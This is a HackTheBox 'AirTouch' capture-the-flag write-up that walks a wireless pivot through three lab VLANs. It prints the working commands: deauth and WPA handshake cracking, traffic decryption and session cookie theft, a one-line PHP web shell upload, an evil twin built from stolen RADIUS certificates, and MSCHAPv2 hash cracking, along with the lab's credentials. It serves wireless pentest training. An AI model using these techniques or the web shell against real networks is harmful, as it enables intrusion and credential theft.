





# HackTheBox — AirTouch: Pivoting Through Three VLANs Over WiFi

AirTouch is one of the most realistic wireless-focused boxes I've encountered on HackTheBox — your entire attack chain runs over simulated WiFi, requiring you to crack WPA-PSK, perform traffic decryption, exploit a web panel, and finally pull off an evil twin attack with real RADIUS certificates to capture and crack MSCHAPv2 credentials. If you've ever wanted to practice wireless pentesting methodology end-to-end in a safe environment, this box delivers.

---

## Overview

The kill chain spans three network segments: a Consultant VLAN (where we land), a Tablets VLAN (reachable via cracked WPA-PSK), and a Corp VLAN (protected by WPA-Enterprise). Getting through each layer teaches something different — SNMP credential leakage, WPA handshake capture and cracking, session cookie manipulation, web shell upload, real-cert evil twin construction, and finally MSCHAPv2 capture and cracking with hashcat. The flags live deep in the Corp VLAN, which means there are no shortcuts.

---

## Reconnaissance

### SNMP: A Password in the System Description

Nmap showed only two open services — SSH on TCP 22 and SNMP on UDP 161. I always run a UDP scan on CTF-style boxes specifically because SNMP is frequently overlooked and frequently misconfigured.



With SNMP confirmed on 161, I walked the MIB tree using the default `public` community string:

```bash
snmpwalk -v2c -c public <TARGET>
```


The sysDescr field is storing a plaintext credential in a field that's world-readable over SNMP with the default community string. This is embarrassingly common in real environments — network engineers sometimes use these fields as informal documentation and forget they're externally accessible.

### SSH as `consultant`

The credential `consultant:RxBlZhLmOkacNWScmZ6D` worked immediately over SSH. Once inside, the environment made the box's premise clear:

- We're inside a Docker container (hostname: `AirTouch-Consultant`, IP: `172.20.1.2/24`)
- Seven wireless interfaces: `wlan0` through `wlan6`, all backed by `mac80211_hwsim` (Linux's software WiFi simulation framework)
- Tools pre-installed: `airmon-ng`, `airodump-ng`, `aircrack-ng`, `wpa_supplicant`, and `eaphammer` at `/root/eaphammer`
- `consultant` has full passwordless sudo

There were no flags here. A network diagram at `~/diagram-net.png` laid out three VLANs:

| Segment | Subnet | Access Method |
|---|---|---|
| Consultant | 172.20.1.0/24 | Wired (we're here) |
| Tablets | 192.168.3.0/24 | WiFi: AirTouch-Internet (WPA-PSK) |
| Corp | <VPN_IP>/24 | WiFi: AirTouch-Office (WPA-Enterprise) |

### WiFi Landscape

I put `wlan0` into monitor mode and ran a scan:

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```



The critical observation: **AirTouch-Office has no visible access point**, but three clients are actively probing for it. This is the classic evil twin setup — the AP must be on a band/channel we haven't scanned yet, and clients will connect to any AP advertising that SSID if we can satisfy their authentication requirements.

---

## Foothold

I needed a clean interface allocation plan to avoid conflicts. With seven simulated interfaces available, I assigned roles upfront:

| Interface | Role |
|---|---|
| wlan0mon | Passive monitoring / airodump-ng |
| wlan1 | Evil twin AP (eaphammer) |
| wlan2 | Deauth attacks (aireplay-ng) |
| wlan3 | Client connection (wpa_supplicant) |
| wlan4–6 | Reserved |

### Phase 1: Cracking AirTouch-Internet (WPA-PSK)

`AirTouch-Internet` on channel 6 had one associated client: `28:6C:07:FE:A3:22`. The plan was to force a WPA 4-way handshake by deauthenticating that client and capturing the reconnection.

I locked `wlan0mon` to channel 6 with a targeted capture:

```bash
sudo airodump-ng -c 6 --bssid F0:9F:C2:A3:F1:A7 -w /tmp/airtouch-internet wlan0mon
```

While that ran, I put `wlan2` into monitor mode and sent deauth frames:

```bash
sudo airmon-ng start wlan2
sudo aireplay-ng --deauth 5 -a F0:9F:C2:A3:F1:A7 -c 28:6C:07:FE:A3:22 wlan2mon
```

My first attempt failed — the client had already drifted off and the deauth hit nothing. Patience here: verify the client is actively associated in airodump-ng before sending deauths. On the second attempt, the handshake landed in the capture file and I cracked it immediately:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt /tmp/airtouch-internet-01.cap
```

**PSK: `challenge`** — cracked in about two seconds.

### Phase 2: Pivoting into the Tablets VLAN

With the PSK in hand, I connected `wlan3` to `AirTouch-Internet`:

```bash
sudo wpa_supplicant -B -i wlan3 -c /tmp/psk_internet.conf
sudo dhclient wlan3
```

I landed on `192.168.3.46/24`. The gateway at `192.168.3.1` was running SSH, DNS, and HTTP. The HTTP service presented a "PSK Router Configuration" login panel.

### Phase 3: Decrypting Tablet Traffic to Steal a Session Cookie

Rather than attacking the login form directly, I captured traffic on the Tablets VLAN. The key insight: since I already had the WPA-PSK and the capture file included the handshake, `airdecap-ng` could decrypt everything in one pass:

```bash
airdecap-ng -e 'AirTouch-Internet' -p 'challenge' /tmp/airtouch-internet-01.cap
```

120 packets decrypted. Opening the output in Wireshark revealed the tablet manager repeatedly polling `GET /lab.php` on `192.168.3.1` with a session cookie: `PHPSESSID=sicb3nc5k8itf2qli2p48gkhno`.

### Phase 4: Router Admin Panel — Cookie Manipulation to RCE

I replayed the stolen session cookie against the router's web panel. The initial access gave me a `UserRole=user` cookie alongside `PHPSESSID`. Classic IDOR: I changed `UserRole=user` to `UserRole=admin` in my browser's storage and refreshed — a file upload form appeared.

PHP and HTML extensions were blocked, but `.phtml` files executed without restriction. I uploaded a basic PHP webshell:

```php
<?php system($_GET['cmd']); ?>
```

Accessed at `http://192.168.3.1/uploads/shell.phtml?cmd=id` — we had RCE as `www-data`.

### Phase 5: Escalating to Root on the Router

Exploring the web application source (`/var/www/html/login.php`) revealed hardcoded credentials:

```php
// manager:2wLFYNh4TSTgA5sNgT4  role: user
// user:JunDRDZKHDnpkpDDvay  role: admin  (commented out)
```

The commented-out `user` account still worked for SSH login, and a quick check revealed the escalation path:

```bash
su user  # password: JunDRDZKHDnpkpDDvay
sudo -l
# (ALL) NOPASSWD: ALL
sudo cat /root/user.txt
```

User flag: [redacted].

---

## Privilege Escalation

### Building the Real Evil Twin

Root access on the router unlocked the materials needed for phase two of the wireless attack. Under `/root/certs-backup/`:

- `ca.crt` — AirTouch's internal CA (CN=AirTouch CA, O=AirTouch)
- `server.crt` — Server certificate signed by that CA
- `server.key` — The matching private key

And under `/root/send_certs.sh`, credentials for the next hop: `remote:xGgWEwqUpfoOVsLeROeG` with SCP access to `<VPN_IP>`. The router itself couldn't reach `<VPN_IP>` — no route existed — confirming that WiFi was the only path into the Corp VLAN.

The router's `/root/psk/hostapd_*.conf` files also gave me all the neighbour network PSKs (useful context, less immediately actionable).

I SCP'd the certificates to the Consultant container's `/tmp/`:

```bash
# On router (via sudo shell)
scp /root/certs-backup/ca.crt /root/certs-backup/server.crt /root/certs-backup/server.key consultant@172.20.1.2:/tmp/
```

### The 5 GHz Discovery — Critical Mistake Corrected

My first evil twin attempt with the real certificates still failed. Clients were probing but never associating. The problem became obvious when I ran a proper full-band scan:

```bash
sudo airodump-ng --band abg wlan0mon
```



**The real AirTouch-Office APs were on 5 GHz channel 44.** The clients I'd seen probing on 2.4 GHz were just background scanning — they were already connected on 5 GHz. My evil twin on channel 6 was invisible to them from an association standpoint.

**Lesson: always scan all bands before setting up an evil twin.** Probes appearing on 2.4 GHz don't mean the AP lives there.

### Launching the Real Evil Twin

I prepared eaphammer's `fullchain.pem` with the correct certificate chain order (server cert first, then CA, then private key) and launched on channel 44 with 5 GHz hardware mode:

```bash
sudo bash -c 'cd /root/eaphammer && ./eaphammer --creds -i wlan6 -e AirTouch-Office -c 44 --hw-mode a --auth wpa-eap'
```

Note the `sudo bash -c 'cd /root/eaphammer && ...'` pattern — eaphammer needs to run from its installation directory for relative path resolution. Running it from elsewhere caused silent failures.

With the evil twin up, I deauthenticated the real AP's clients:

```bash
sudo aireplay-ng --deauth 0 -a AC:8B:A9:F3:A1:13 wlan2mon
```

Shortly after, a client associated and completed PEAP authentication — but rejected our credentials, leaving behind the MSCHAPv2 exchange in eaphammer's output:



### Cracking MSCHAPv2

hashcat mode 5500 handles NetNTLMv1/MSCHAPv2. The format is `user::::response:challenge` (no colons within the hex strings):

```bash
echo 'r4ulcl::::59f357436c5ae81e3a36d1f4fd62377ba53d341c4619185f:6d9916cec3f79130' > mschapv2.hash
hashcat -m 5500 mschapv2.hash /usr/share/wordlists/rockyou.txt
```

**Cracked instantly: `r4ulcl:laboratory`**

### Connecting to the Corp VLAN — The wpa_supplicant Backslash Trap

Connecting wpa_supplicant to a WPA-Enterprise network with a domain-prefixed identity (`AirTouch\r4ulcl`) hit a subtle but critical bug. In wpa_supplicant config files, **quoted strings are not processed for backslash escape sequences** — what you type is sent literally, byte for byte.

This means:
- `identity="AirTouch\\r4ulcl"` → sends 16 bytes: `AirTouch\\r4ulcl` ❌
- `identity="AirTouch\r4ulcl"` → sends 15 bytes: `AirTouch\r4ulcl` ✅

The RADIUS server rejected the double-backslash identity immediately with EAP-Failure before even issuing an MSCHAPv2 challenge. To avoid shell escaping mangling the config further, I encoded it in base64 for transfer.

The working wpa_supplicant config:

```
network={
    ssid="AirTouch-Office"
    scan_ssid=1
    scan_freq=5220
    key_mgmt=WPA-EAP
    eap=PEAP
    identity="AirTouch\r4ulcl"
    password="laboratory"
    ca_cert="/tmp/at_ca.crt"
    phase2="auth=MSCHAPV2"
}
```

I also spoofed the MAC to match a known client to avoid any MAC filtering:

```bash
sudo ip link set wlan4 down
sudo ip link set wlan4 address 28:6C:07:12:EE:A1
sudo ip link set wlan4 up
sudo wpa_supplicant -B -i wlan4 -c /tmp/office_eap7.conf
# DHCP was slow over the WiFi bridge; static IP was more reliable
sudo ip addr add <VPN_IP>/24 dev wlan4
```

### Root on AirTouch-AP-MGT

With Corp VLAN access, `<VPN_IP>` was the AP management host. SSH as `remote:xGgWEwqUpfoOVsLeROeG` (from the router's `send_certs.sh`) dropped me into another Docker container.

`remote` had no sudo, but `/etc/hostapd/` was world-readable — including the EAP user database:

```bash
cat /etc/hostapd/hostapd_wpe.eap_user
```



The `admin` EAP password was also the SSH password:

```bash
ssh admin@<VPN_IP>  # password: xMJpzXt4D9ouMuL3JJsMriF7KZozm7
sudo cat /root/root.txt
```

Root flag: [redacted].

---

## Lessons Learned

**Always scan 5 GHz.** The single biggest time sink was running an evil twin on the wrong band. The clients probing on 2.4 GHz were already connected on 5 GHz channel 44. `airodump-ng --band abg` should be the default when hunting for WPA-Enterprise targets.

**eaphammer's Python wrapper is fragile.** When it fails silently, drop to the `hostapd-eaphammer` binary directly. Also, always run eaphammer from its installation directory — relative paths for certificate and config files break otherwise.

**wpa_supplicant does not process backslash escapes in quoted strings.** `"DOMAIN\user"` sends exactly those bytes. Transfer config files via base64 if you're worried about shell mangling.

**Traffic decryption with airdecap-ng requires the handshake and data in the same capture file.** Start your capture before deauthing, not after.

**Check `/etc/` for template configs when `/root/` is inaccessible.** The hostapd EAP user database was world-readable in `/etc/hostapd/` and contained plaintext passwords. Don't assume sensitive data only lives in root-owned directories.

**Cookie-based role enforcement is an authorization bug, not authentication.** `UserRole=user` → `UserRole=admin` in the browser unlocked the entire admin panel. Always check cookie values for role identifiers.

**Password reuse bridges segments.** The `admin` EAP credential in the RADIUS database was identical to the SSH password on the same machine. Credentials captured through one mechanism are always worth trying against other services.

**Channel isolation is real in mac80211_hwsim.** Simulated wireless frames only relay between interfaces tuned to the same channel — a detail that mirrors real-world RF physics and matters when planning interface roles.
